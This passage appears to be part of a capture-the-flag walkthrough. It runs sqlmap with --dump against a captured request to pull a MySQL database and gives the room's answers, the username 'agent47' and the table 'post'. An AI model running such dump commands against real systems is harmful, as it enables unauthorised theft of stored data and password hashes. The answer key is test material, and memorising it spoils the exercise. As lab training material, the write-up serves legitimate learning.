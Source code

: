 		![task3-request](./images/task3-request.png)

	* Run sqlmap
	
		```
		sqlmap -r request.txt --dbms=mysql --dump
		```

		![task3-hash](./images/task3-hash.png)

* What was the username associated with the hashed password?

	`agent47`

* What was the other table name?

	`post`
